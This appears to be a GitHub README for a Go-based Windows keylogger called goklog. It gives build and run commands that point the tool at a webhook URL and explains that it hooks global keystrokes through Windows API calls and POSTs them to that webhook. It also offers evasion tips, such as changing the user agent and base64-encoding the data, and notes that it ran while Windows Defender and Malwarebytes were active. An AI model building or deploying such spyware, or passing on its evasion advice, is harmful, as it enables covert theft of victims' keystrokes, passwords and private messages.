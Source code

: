 # goklog
Go based Windows Keylogger sending ASCII to Webhooks

## Syntax
go build -o goklog.exe goklog.go; 
.\goklog.exe 'https://webhook-test.com/<YOUR-UNIQUE-IDENTIFIER>'

## Disclaimer
Educational purposes only. 

## Context 
Uses native Windows API calls including SetWindowsHookExW, CallNextHookEx, GetMessageW from user32.dll to globally monitor keyboard strokes and then filters out ASCII printable characters and HTTP POSTs them to a webhook. Notice that I leave default go client user agents. You need to change that yourself or add base64 and include unicode or non printable characters as part of your buffer.
Notes about what I learned from varying articles and Go syntax constructs vs. Python in the comments. 

## Runtime test
This has been run on Windows 11 x64 bit and with Windows Defender and Malwarebytes Premium 

## Demo
![enter image description here](https://github.com/dc401/goklog/blob/main/goklog-running-demo.gif?raw=true)

